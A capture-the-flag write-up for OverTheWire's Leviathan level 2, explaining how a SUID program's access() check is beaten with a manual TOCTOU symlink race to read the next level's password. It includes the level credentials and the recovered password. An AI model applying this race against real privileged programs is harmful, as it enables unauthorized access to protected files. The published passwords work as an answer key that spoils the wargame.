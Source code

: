 +++
date = 2020-05-05T18:00:00Z
lastmod = 2020-05-05T18:00:00Z
author ="l1ge"
title = "OverTheWire: Leviathan 2 Write-Up"
subtitle = "Write-up for Leviathan level 2 the FUN way"
feature = "image/leviathan_thumb.jpg"
caption = "Screenshot from Leviathan, 2014. Directed by Andrey Zvyagintsev"
tags = ["write-up", "overthewire", "reverse engineering"]
categories = ["write-ups"]

+++

There are plenty of write-ups out there for Leviathan's Level 2.  But none of them solved it the way I did: **the fun way!** - When you miss the very obvious solution but your qwerky way finally work

Let's first access the level

> ssh -p 2223 leviathan2@leviathan.labs.overthewire.org
>
> password: ougahZi8Ta

## Recon

In the home folder there is an executable named `printfile`. Let's check its permissions

```bash
$ ls -l
total 8
-r-sr-x--- 1 leviathan3 leviathan2 7436 Aug 26  2019 printfile
```

It has the SUID bit (s), which means we can run it with the permissions of its owner leviathan3
Great! so let's try to print leviathan3 password

```bash
$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

That would have been too easy. For some reason `printfile` doesn't allow us to access a file owned by leviathan3 despite the SUID bit. Let's investigate the binary with the command `ltrace`

```bash
$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x804852b, 2, 0xffffd764, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                         = -1
puts("You cant have that file..."You cant have that file...
)                                  = 27
+++ exited (status 1) +++
```

I also tried `strace` to check the system calls

```bash
$ strace ./printfile /etc/leviathan_pass/leviathan3
execve("./printfile", ["./printfile", "/etc/leviathan_pass/leviathan3"], [/* 17 vars */]) = 0
strace: [ Process PID=32706 runs in 32 bit mode. ]
brk(NULL)                               = 0x804b000
fcntl64(0, F_GETFD)                     = 0
fcntl64(1, F_GETFD)                     = 0
fcntl64(2, F_GETFD)                     = 0
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xf7fd2000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat64(3, {st_mode=S_IFREG|0644, st_size=36357, ...}) = 0
mmap2(NULL, 36357, PROT_READ, MAP_PRIVATE, 3, 0) = 0xf7fc9000
close(3)                                = 0
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib32/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\1\1\1\3\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0\0\204\1\0004\0\0\0"..., 512) = 512
fstat64(3, {st_mode=S_IFREG|0755, st_size=1787812, ...}) = 0
mmap2(NULL, 1796604, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0xf7e12000
mmap2(0xf7fc3000, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1b0000) = 0xf7fc3000
mmap2(0xf7fc6000, 10748, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0xf7fc6000
close(3)                                = 0
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xf7e10000
set_thread_area({entry_number:-1, base_addr:0xf7e10700, limit:1048575, seg_32bit:1, contents:0, read_exec_only:0, limit_in_pages:1, seg_not_present:0, useable:1}) = 0 (entry_number:12)
mprotect(0xf7fc3000, 8192, PROT_READ)   = 0
mprotect(0x8049000, 4096, PROT_READ)    = 0
mprotect(0xf7ffc000, 4096, PROT_READ)   = 0
munmap(0xf7fc9000, 36357)               = 0
access("/etc/leviathan_pass/leviathan3", R_OK) = -1 EACCES (Permission denied)
fstat64(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 7), ...}) = 0
brk(NULL)                               = 0x804b000
brk(0x806c000)                          = 0x806c000
write(1, "You cant have that file...\n", 27You cant have that file...
) = 27
exit_group(1)                           = ?
+++ exited with 1 +++
```

To be honest, I don't understand what most of this means, but one line is pretty straightforward :

```bash
access("/etc/leviathan_pass/leviathan3", R_OK) = -1 EACCES (Permission denied)
```

There is an *access()* function that checks if I can access the file. Let's investigate how that function works.
## Researches
From this [link](https://linux.die.net/man/2/access) I get a few interesting informations:

> The check is done using the calling process's real UID and GID, rather than the effective IDs as is done when actually attempting an operation (e.g., open(2)) on the file. This allows set-user-ID programs to easily determine the invoking user's authority.

OK now I understand why, despite the SUID bit on the `printfile`, I can't access the password file.
I keep reading and stumble upon a serious lead :

> **Warning**: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it. For this reason, the use of this system call should be avoided.

I like that!
I decide to Google more and I discovered that this kind of vulnerabilities was called **TOCTOU** (Time-of-check to time-of-use) and was mostly abused using symlinks.

The idea is to modify the file between the moment it gets checked for permissions and the moment it gets opened. This is done by creating a symlink on the file, targeting the real file we wanna access. But this happens so fast, how can I do that ?

That's when it becomes fun. I could have made a script but in the intro of the Leviathan's series, its said you don't need to write scripts to solve any of the level.

Instead I did it... manually.
## Exploit
I used `tmux` to be able to launch two commands simultaneously. You can also use `screen`

```bash
$watch -n 0.1 "touch /tmp/l1ge/lev3; ln -sf /etc/leviathan_pass/leviathan3 /tmp/l1ge/lev3; rm /tmp/l1ge/lev3"
```

This command runs every 0.1 seconds with`watch -n 0.1`

-  `touch /tmp/l1ge/lev3` - creates a file *lev3*
- `ln -sf /etc/leviathan_pass/leviathan3 /tmp/l1ge/lev3`  - Creates a symlink on *lev3* targetting leviathan3's password file
-  `rm /tmp/l1ge/lev3` - Deletes *lev3*

To sum up, every 0.1 seconds it creates a file with permissions that can pass the *access()* function, symlinks it to the file we really wanna access, deletes it and start all over again.  

My plan is to run `./printfile` on my *lev3* file repeatedly until it magically sync up perfectly and the symlink happens right between *access()* reads the permissions and it gets passed to `cat` to print its content.

And to do that without a script, I'll use my fingers

I fire-up another `tmux` window and here I go, hitting UP ARROW and ENTER as fast I can to execute randomly the command on repeat.

```bash
$ ./printfile /tmp/l1ge/lev3
```

...until I hope the password magically appears. When you find yourself doing something so stupid on a CTF,  a strong inner voice tells you to give up and never touch a computer again.

BUT in less than 1mn the magic happened, that's fast enough to bypass my own pessimism.

![](/image/leviathan2.jpg)

Our password is  **Ahdiemoo1j**

There is of course a most reliable way to solve this level and you can check the other write-ups about it.

Hope you enjoyed!

Cheers,
l1ge.
